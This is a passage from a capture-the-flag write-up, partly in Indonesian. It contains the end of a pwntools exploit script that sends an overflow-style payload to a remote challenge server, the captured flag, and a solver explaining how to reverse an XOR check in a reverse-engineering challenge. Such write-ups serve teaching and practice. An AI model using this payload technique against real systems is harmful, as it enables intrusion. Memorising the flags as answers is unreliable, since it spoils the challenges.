 if args.REMOTE:
    p = remote('20.169.252.240', 4000)
else:
    p = process(binary.path)

# gdb.attach(p)

p.recvuntil(b"Help him: ")

payload  = b""
payload += b"A"*30
payload += p64(0xFFFFFFFFFFFF) # Represent -1

p.sendline(payload)
p.stream()
p.close()
```

**Flag**  
```
cvctf{Y34h_1_c4N_G0_n0w_tH4nK_y4u}
```

## Reverse : Simple Checkin - 260 Points

**Challenge**
Just a checkin challenge. Nothing special.

[challenge](Reverse/Simple-Checkin/challenge)

**Solution**
Decompile file binary tersebut menggunakan ida64, dan lakukan disassemble fungsi main nya.

![](Reverse/Simple-Checkin/main.png)

Pada fungsi main tersebut, terdapat kondisi XOR yaitu 

```
v18 + i ^ v14[i] != v16[i]
```

Karena XOR reversible, dan asumsi flag nya adalah dengan reverse XOR tersebut, maka tinggal ambil v14 dan v16 tersebut, lalu lakukan XOR. Output dari XOR kedua variable tersebut adalah sebuah plaintext / flag.

Berikut solver nya:
```
v14 = [_ for _ in range(226)]
v16 = [_ for _ in range(226)]

v14[0] = 11
v16[0] = 104
v14[1] = 125
v16[1] = 11
v14[2] = 172
v16[2] = 207
v14[3] = 168
v16[3] = 220
v14[4] = 5
v16[4] = 99
v14[5] = 239
v16[5] = 148
v14[6] = 30
v16[6] = 119
v14[7] = 215